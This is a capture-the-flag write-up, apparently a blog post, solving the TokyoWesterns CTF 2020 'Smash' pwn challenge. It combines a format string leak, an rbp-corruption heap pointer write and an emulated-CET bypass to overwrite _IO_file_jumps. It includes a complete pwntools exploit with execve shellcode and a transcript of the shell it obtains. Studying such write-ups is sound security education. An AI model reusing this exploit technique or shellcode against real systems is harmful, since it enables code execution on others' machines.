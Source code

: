 ```yaml
---
layout: "post"
title: "Smash - TokyoWesterns CTF 2020"
date: 2020-09-22
---
```



**tl;dr**

+ Leak with Format String bug.
+ Use the arbitrary heap pointer write to overwrite `__GI__IO_file_jumps`.
+ Inject shellode in heap and get code execution in `dfprintf`.

<i!--more-->

**Challenge Points:** 388
**Solves:** 9

We really had a great time this weekend playing this year's edition of TokyoWesterns CTF. In this post I'd like to share the intended solution for the challenge **Smash** which we could not solve during the CTF but the idea and the concept involved is worth sharing.

## Challenge description

To begin with , we've been provided with the challenge binary , `libc 2.31`, a runner bash script and a folder containing Intel's tool called Control-flow Enforcement Technology (CET).This was our first tackel with Intel's CET and the concept involved is truly worth sharing. 

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

All mitigations except canary have been enabled.

## Reversing

+ The input name function takes 0x20 bytes of user input and then does an `strdup` which stores our input on heap.
+ Next , `dprintf` is called on our input without any format specifier, hence we can leak required addresses with the format string bug.
+ After this , we're asked to enter `y` or `n` and if `y` is entered , the program further asks for another `input message` and then takes in another 0x38 bytes of input.
+ If `n` is entered , the program prints `Bye` with dprintf and directly exits.

Pretty straight forward, but where are the bugs?

## Exploit development

We actually have 2 overflows which let us corrupt rbp and pivot to almost anywhere, but wait, CET doesn't allow us to execute ROP chain directly. We have to find a way to get code execution.

### How Intel's CET works

Control-Flow Enforcement Technology promises to guard a binary against attacks such as ROP, JOP etc. It does so by allocating a `shadow stack` in mapped memory region. Whenever a function is called, apart from storing the return address on the program's thread stack , it also stores it on the shadow stack. So whenever the program returns from the function, the return address is comapared with the one stored on the shadow stack , if a match is found, the program executes smoothly,  and if not , the program aborts thus mitigating ROP.

Intel SDE provides an emulation that includes:

* Stack checks
* Indirect branch checks

From the above discussion, one thing gets clear , every function that is executed in the supervision of CET needs to begin with `endbr64`. Let's just bear that in mind and continue.

## In search of arbitrary write

Since we have our required leaks , we can now corrupt rbp with our first overflow in the step where program asks us to enter `y` or `n`. 

An important observation to be made here is that , after reading our input and storing on heap with strdup, the program copies the heap pointer to an offset of `rbp-0x8`.

Since , we overwrote rbp with an address of our choice , after the function executes `leave` , the rbp will be updated with the value that we specified.

Immediately after that, the following instructions copy the heap pointer storing our input to `rbp-0x8`.

```sh
mov    QWORD PTR [rbp-0x8],rax
mov    rax,QWORD PTR [rbp-0x8]
```

Thus , we have an arbitrary write of a heap pointer.

## Defeating CET

After analyzing a bit ,  we found out that the emulator that the CTF has provided us with does not check for the `NX` bit and few pages have been marked `read-write-executable` allowing us to now inject shellcode.

Now that we can execute shellode, we have to now select a target to get code execution.

## dprintf to the rescue

One important aspect of dprintf is that it uses a `temporary file structure` to carry out it's operations. With file structure operations, we can find out apt targets to get code execution. One such target function pointer is `_IO_new_file_finish` which is called internally inside `dprintf`. 

So , now our plan is :

+ Overwrite rbp to point to `_IO_new_file_finish + 8`.
+ Copy heap address to `_IO_new_file_finish`.
+ Fill heap with shellcode as CET doesn't implement NX.
+ Get code execution in dprintf.

Here's the full exploit code.

```py

from pwn import *
import sys

LIBC = ELF('./libc-2.31.so',checksec = False)
if(len(sys.argv)>1):
    io=remote("pwn01.chal.ctf.westerns.tokyo",29246)
    context.noptrace = True
else:
    io=process("./smash")

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


if __name__ == "__main__":
    gdb.attach(io)
    sla('> ','%p '*9)
    re(55)
    stack = int(re(14),16)
    log.info("stack = " + hex(stack))
    re(1)
    code = int(re(14),16) - 0x1216
    log.info("code = " + hex(code))
    re(7)
    libc = int(re(14),16) - 0x270b3
    log.info("libc = " + hex(libc))
    target_stack = code + 0x40e8 #to be changed
    inp = stack - 0x60
    IO_file_jumps = libc + 0x1ed4a0
    pop_rdi = code + 0x000013d3
    payload  = b"\xf3\x0f\x1e\xfa" # endbr64
    payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    payload += b"\x90" * (0x30 - len(payload))
    payload += p64(IO_file_jumps + 0x10 + 8)[:6]
    sa('[y/n] ',payload)
    #sla('message > ','write to shadow')
    io.interactive()
```

Remember that the shellcode has to be started with `endbr64` instruction to bypass the indirect branch instruction check.

```console
[+] Opening connection to pwn01.chal.ctf.westerns.tokyo on port 29246: Done
[!] Skipping debug attach since context.noptrace==True
[*] stack = 0x7fffc7eb4d00
[*] code = 0x55a74550c000
[*] libc = 0x7f498f5bb000
[*] Switching to interactive mode

Bye!
$ ls
flag.txt
run.sh
sde
sde.tgz
smash
$ cat flag.txt
TWCTF{17_15_ju57_4n_3mul470r,n07_r34l_CET}
```


## Conclusion

This was one of the most interesting challenges I had come across in a while. The idea of a faulty emulator and CET was really cool. Kudos to team TokyoWesterns for such a cool challenge and such an awesome CTF.
